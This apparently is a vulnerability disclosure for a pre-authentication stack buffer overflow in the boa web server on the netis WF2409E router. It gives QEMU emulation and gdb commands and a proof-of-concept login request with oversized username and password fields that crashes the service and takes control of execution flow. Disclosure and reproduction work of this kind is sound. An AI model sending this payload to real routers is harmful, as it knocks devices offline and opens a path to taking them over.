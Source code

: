 ```yaml
---
title: Buffer Overflow in boa of netis_WF2409E
date: 2025-04-25 14:14:31
tags: cve

---
```




**Affected Product**: netis_WF2409E

**Affected Firmware Versions**:  v2.3.40982

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 



# Buffer Overflow in boa of netis_WF2409E



## Principle of Vulnerability

 I discovered a  stack overflow vulnerability in the netis_WF2409E router.

sub_4110d4 is the authentication logic. It concatenates the username and passwd to v5 and then compares it with sys_passwd. However, since sprintf does not perform length checking, an overflow occurs. Therefore, this is **a vulnerability before authentication.**



![image-20250425142156676](../res/image-20250425142156676.png)

## Simulate using QEMU.

Start a web service by simulating BOA with QEMU.



```
sudo chroot ./ ./qemu-mips-static  -L ./lib  ./bin/boa -p /web -f /etc/boa.conf
```

![img](../res/65b6a1267ae9f59ca526e2b23a486a52.png)



## poc

Pass parameters

```
username=1111111111111111111111111111111111111111111111111111111&passwd=11111111111111111111111111111111111111111
```



It can be observed that the web service has crashed completely.

![ff4faca66748100cccc85aa36addeb8e](../res/ff4faca66748100cccc85aa36addeb8e.png)





## Debug using gdb.

```
sudo chroot ./ ./qemu-mips-static  -L ./lib   -g 1234 ./bin/boa -p /web -f /etc/boa.conf
```



![eb26f09d82a5d9b23d33329823ea002e](../res/eb26f09d82a5d9b23d33329823ea002e.png)

It can be seen that the program has overflowed and controlled the program execution flow. If necessary, more overflow can be performed to construct a ROP chain.
